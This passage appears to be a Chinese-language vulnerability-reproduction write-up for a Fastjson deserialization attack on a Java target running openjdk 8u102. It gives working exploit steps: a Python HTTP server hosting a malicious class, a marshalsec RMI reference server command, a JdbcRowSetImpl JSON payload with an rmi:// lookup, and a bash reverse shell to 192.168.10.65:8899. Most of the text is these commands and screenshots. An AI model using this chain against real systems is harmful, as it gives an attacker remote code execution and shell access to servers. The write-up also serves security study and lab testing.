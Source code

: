漏洞启动

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdOahAALOksq3cspwQAuXozuGHic7uxPNjVPib73WavBdZAUOzstSj144vw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdOKJxJZ18bd1h1UtJa8V5CnSZVluVqpFwYE4952kjFXN3Hx2wQfrIx5g/640?wx_fmt=png)

##### 因为目标环境是 openjdk：8u102，

##### 这个版本没有 com.sun.jndi.rmi.object.trustURLCodebase 的限制，我们可以利用 RMI 进行命令执行。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdOwRqfGK2bTMGibSnDapBIQchnHeBtTkBUd7rTkryQgYpOfwlC6arKycg/640?wx_fmt=png)

```
python -m SimpleHTTPServer 8080
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdOPWo5jj1KwTT3RrKZYs7VpREAnVHEKe2LMDICrygbFk4vaNf25GbAibw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdOVwe1JeoXCgIfEEYxYgsicxlzM1ia1kknuXib1RJN7BlMb5hPV0G5JYSkA/640?wx_fmt=png)

开启 http 服务  

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.10.65/#zcc" 9999
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdOkdXkVx8O0QgIvnvqdAKzBynlZbDZR9pdUalprmYNp8mGBXKDXcHIWQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdOfKaDPWs7vllgAHGe0CwDoN2IJzsxqwwhORkH5gD30awZBj7yoNaOXA/640?wx_fmt=png)

借助 marshalsec 项目启动 RMI 服务器，监听 9998 端口，并制定加载远程类 zcc.class:  

```
{
 "a":{
 "@type":"java.lang.Class",
 "val":"com.sun.rowset.JdbcRowSetImpl"
 },
 "b":{
 "@type":"com.sun.rowset.JdbcRowSetImpl",
 "dataSourceName":"rmi://192.168.10.65:9999/zcc",
 "autoCommit":true
 }
}
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdORQXmkeHufHJvKvk9msOplWRqOibkicENByh5A6p8qBUuQY16zMCvCzFA/640?wx_fmt=png)

发送 payload, 别忘了改 Content-Type: application/json，可以看见成功写入，反弹 shell 的手段和上面 1.2.24 的一样：

```
"/bin/bash", "-c", "bash -i >& /dev/tcp/192.168.10.65/8899 0>&1"
```
